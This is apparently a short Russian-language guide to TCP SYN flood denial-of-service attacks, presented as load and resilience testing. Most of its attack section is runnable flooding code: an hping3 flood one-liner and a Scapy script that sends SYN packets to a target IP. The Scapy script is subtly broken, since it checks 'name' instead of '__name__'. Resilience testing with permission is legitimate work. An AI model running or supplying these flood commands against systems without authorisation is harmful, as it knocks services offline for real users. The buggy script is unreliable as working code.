 # TCP SYN Flood
Техника DoS-атаки, направленная на насыщение сервера ожидающими подтверждениями (SYN) соединениями. В рамках нагрузочного тестирования данной атаки, система подвергается внезапному потоку фальшивых запросов на установление TCP-соединений, что приводит к перегрузке ресурсов и отказу в обслуживании реальных клиентов. Целью тестирования является оценка устойчивости системы к таким массированным атакам и выявление возможных брешей в защите.
#### Методы реализации
Для эмуляции TCP SYN Flood можно использовать такие инструменты, как hping3 или Scapy:
```
bash
hping3 -S --flood -p PORT TARGET_IP
```

```
from scapy.all import *

target_ip = "192.168.1.1"  # Замените адресом целевой системы
num_packets = 1000  # Количество фальшивых пакетов для отправки
def syn_flood():
    for _ in range(num_packets):        
        packet = IP(dst=target_ip)/TCP(dport=80, flags="S")  # Формируем SYN пакет
        send(packet, verbose=False)

if name == "__main__":
    syn_flood()    
    print("TCP SYN Flood атака завершена")
```

Если нет вариантов установки стороннего ПО, то есть готовые скрипты на [jmeter]()

